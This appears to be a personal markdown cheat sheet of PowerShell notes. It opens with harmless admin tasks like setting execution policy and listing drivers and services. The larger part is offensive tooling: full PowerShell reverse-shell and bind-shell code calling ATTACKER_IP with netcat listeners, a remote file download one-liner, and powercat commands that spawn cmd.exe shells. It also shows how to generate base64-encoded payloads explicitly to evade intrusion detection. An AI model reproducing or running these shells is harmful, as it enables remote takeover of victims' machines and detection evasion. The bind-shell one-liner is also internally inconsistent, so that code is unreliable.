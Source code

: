 # Powershell

* Set `ExecutionPolicy` to `Unrestricted`, run `powershell` as admin:
```
Set-ExecutionPolicy Unrestricted
Y
```

* Check `ExecutionPolicy` status:
```
Get-ExecutionPolicy
```

## List driver version
* To find the version number of all drivers, we can use `Get-WmiObject Win32_PnPSignedDriver`, which provides detail information of all `Win32_PnPSignedDriver`. We can then select specific property using `Select-Object` such as `DeviceName`, and use `Where-Object` to filter the result, like `grep`.
```ps
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion | Where-Object {$_.DeviceName -like "*USB*"}
```

## List running services
We can list all running services with `tasklist` or with following powershell code
```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

* Comments in `powershell` scripts using `#`, `<#` and `#>`
```powershell
# This is a comment
<#
This is inside a block comment
#>
```

* File Transfer / Downloading with powershell, `new-object` instantiates a new `.NET` framework or `.COM` object, in our case, we are creating an instance of `WebClient` under the namespace of `System.Net`. This class contains a public function, `DownloadFile`, which takes two parameters, source location in the form of a `URI`, and a target location. (where the downloaded file will be stored)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://localhost/file','C:\Users\saccharide\Desktop\file')"
```

## Bind Shell & Reverse Shell
* A `bind shell` is when the victim binds `/bin/bash` to a port and is listening on its machine for attacker to connect to it and run command, but this is mostly likely blocked by firewall since the attacker is coming from the outside world, and is viewed as insecure network. This leds to `reverse shell`.
* A `reverse shell` is when the attacker creates a server and makes the victim connects to the attacker's machine. By defualt, firewalls are configured to deny access from insecure network (attacker's) to secure network (victim's), but they allow access from secure network to the insecure network. This means we can makes the victim to initiate the connection to attacker, and executes `/bin/bash` upon established connection.

## Reverse Shell!
* `iex` executes the string as command, similar to running `bash -c` or `powershell -c`, running command 
```
$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);

$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
```

Final setup:
```
Attacker:
nc -lvnp 1337

Victim:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
```

## Bind Shells
* Bind shell 
```
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
$listener.Stop();
```

* Final Setup
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337); $listener.start();$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop();"
```

## Powercat
* `powercat` is essentially the Windows' verison of `netcat`.
* Dot-Soucring, kind of like loading `.bashrc`, will only be avaiable for the current powershell session, and will need to be reloaded every time if want to use.
```
. .\powercat.ps1
powercat -h
```

### File Transfer
* `-c` client mode, and we will need to specify the receiver's IP, `-p` will need the receiver's port number, `-i` specifies the local input file we want to transfer
```
Reciver:
nc -lnvp 1337 > receive.ps1

Sender:
powercat -c RECEIVER_IP -p RECEIVER_PORT -i C:\Users\saccharide\powercat.ps1
```

### Reverse shell
* Again, `reverse shell` is where the attacker starts a listener, and makes the victim initiate the connection
```
Attacker:
nc -lnvp 1337

Victim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe
```

### Bind Shell
* Again, `bind shell` is where the victim starts the listener and wait for attacker to connect to it to run shell commands.
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powercat -l -p 1337 -e cmd.exe
```

### Stand-Alone Payloads
* `-g` option will generate a payload and we can redirect the output of this to a file, and powershell can run the generated payload directly
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -g > reverse-shell.ps1
./reverse-shell.ps1
```

* Since most `IDS` will be able to detect such simple payload, we can encode it to `base64` with `-e` option, and we can use run it with `powershell -E`
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -ge > reverse-shell.ps1
powershell.exe -E CONTENT_OF_REVERSE-SHELL.ps1
```

